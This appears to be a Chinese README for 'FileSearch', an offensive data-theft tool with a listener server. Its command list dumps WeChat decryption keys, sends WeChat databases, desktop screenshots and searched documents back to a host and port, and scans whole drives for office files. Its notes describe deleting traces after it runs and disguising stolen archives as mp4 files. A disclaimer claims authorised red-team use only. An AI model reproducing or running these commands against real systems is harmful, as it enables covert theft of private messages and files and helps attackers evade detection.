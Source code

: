 ### Server


```plain
Server.exe port # 默认8888端口
```

### Command

```plain
[+] FileSearch.exe dumpkey # 获取微信密钥
[+] FileSearch.exe send 127.0.0.1 8888 # 从默认路径回传微信数据库
[+] FileSearch.exe send 127.0.0.1 8888 vxpath # 指定微信数据库路径
[+] FileSearch.exe photo 127.0.0.1 8888 # 桌面截屏回传
[+] FileSearch.exe search d:\ .docx # 查找指定类型文件
[+] FileSearch.exe upload path 127.0.0.1 8888 # 上传文件
[+] FileSearch.exe uploads path 127.0.0.1 8888 # 上传文件夹
[+] FileSearch.exe all 127.0.0.1 8888  # 全盘获取指定类型文件
[+] FileSearch.exe user 127.0.0.1 8888 # c:\users目录下查找类型文件
```

### 更新说明

1、all参数排除了c盘符查找指定类型文件，避免大量缓存文件造成卡顿，添加user参数在c:\users目录下查找

可自行修改需要上传的文件类型（747行），默认为：

```plain
const char* filetype[] = { ".doc",".xls", ".pdf" ,".docx",".xlsx",".txt",".bat",".ppt",".pptx" };
```

2、运行成功后会自动删除生成出来的文件夹以及压缩包，压缩包文件随机修改成了mp4后缀

3、优化了查找文件匹配方式，支持模糊匹配或精确匹配

4、新增uploads参数遍历指定文件夹压缩上传功能

5、新增photo参数桌面截屏回传功能

### 功能展示：

![img](https://cdn.nlark.com/yuque/0/2022/png/32539762/1668769423893-416c9225-1319-4133-a468-3cb6cee900d4.png)

![img](https://cdn.nlark.com/yuque/0/2022/png/32539762/1668770076653-85c5e09c-e9a8-436f-8ce5-8987cc079882.png)

![img](https://cdn.nlark.com/yuque/0/2022/png/32539762/1668772513228-738d3cd4-5aef-49e5-9d31-6df8d9c6e8f9.png)

## 已知问题：

大文件（G级）传输回来后压缩包损坏无法正常打开，经过多次测试发现是c++ zip库压缩的问题，

暂时使用以下两种办法解决：

1、上传Rar.exe压缩后再使用upload_file方法进行回传

```plain
rar.exe a -k -r -s -m1 bak.rar "path"
```

2、使用WinRAR内置修复功能或者使用[DiskInternals ZIP](https://www.diskinternals.com/zip-repair/)进行修复损坏文件

> 后续还会更新~

如果发现缺陷请提交 issue，非常感谢！

#### 本人失业多年，已不参与大小HW活动的攻击方了，若溯源到id与本人无关

#### 免责声明

 本工具仅能在取得足够合法授权的企业安全建设中使用，在使用本工具过程中，您应确保自己所有行为符合当地的法律法规。 如您在使用本工具的过程中存在任何非法行为，您将自行承担所有后果，本工具所有开发者和所有贡献者不承担任何法律及连带责任。 除非您已充分阅读、完全理解并接受本协议所有条款，否则，请您不要安装并使用本工具。 您的使用行为或者您以其他任何明示或者默示方式表示接受本协议的，即视为您已阅读并同意本协议的约束。

